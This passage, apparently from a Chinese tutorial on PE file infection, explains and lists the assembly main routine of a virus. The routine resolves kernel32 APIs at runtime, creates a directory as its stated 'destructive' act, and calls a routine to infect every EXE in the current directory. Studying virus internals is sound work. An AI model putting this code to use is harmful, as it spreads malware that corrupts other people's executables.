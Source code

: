 ------

### 4.主函数

==实现补丁程序功能模块之前，要做以下工作，这些工作被封装在一个名为`_start`的子程序里==。==该子程序首先获取`kernel32.dll`的基地址，然后获取两个重要函数的地址，并通过函数`_getAllAPIs`将数据定义中所有用到的函数所在的内存地址进行初始化==。==最后调用函数`_infectItAll`实施感染==。

------

```assembly
1094 _start proc
1095 local hKernel32Base:dword ;存放kernel32.dll基地址
1096 local hUser32Base:dword
1097
1098 local _getProcAddress:_ApiGetProcAddress ;定义函数
1099 local _loadLibrary:_ApiLoadLibrary
1100 local _createDir:_ApiCreateDir
1101
1102 pushad
1103
1104 ;获取kernel32.dll的基地址
1105 invoke _getKernelBase,eax
1106 mov hKernel32Base,eax
1107 mov dword ptr [ebx+kernel],eax
1108
1109 ;从基地址出发搜索GetProcAddress函数的首址
1110 mov eax,offset szGetProcAddr
1111 add eax,ebx
1112
1113 mov edi,hKernel32Base
1114 mov ecx,edi
1115
1116 invoke _getApi,ecx,eax
1117 mov _getProcAddress,eax ;为函数引用赋值GetProcAddress
1118
1119 ;使用GetProcAddress函数的首址
;传入两个参数调用GetProcAddress函数，获得CreateDirA的首址
1120 mov eax,offset szCreateDir
1121 add eax,ebx
1122 invoke _getProcAddress,hKernel32Base,eax
1123 mov _createDir,eax
1124
1125 ;调用创建目录的函数（病毒的破坏性）
1126 mov eax,offset szDir
1127 add eax,ebx
1128 invoke _createDir,eax,NULL
1129
1130 ;开始我们的快乐之旅途
1131
1132 lea edi,[ebx+lpFunAddress]
1133 lea esi,[ebx+szFunNames]
1134 ;从kernel的导出表获取所有相关API的入口地址
1135 call _getAllAPIs
1136
1137 ;获取当前目录
1138 lea edi,[ebx+OriginDir]
1139 push edi
1140 push 7Fh
1141 call [ebx+_GetCurrentDirectoryA]
1142 ;感染当前目录的所有EXE文件
1143 call _infectItAll
1144
1145 popad
1146 ret
```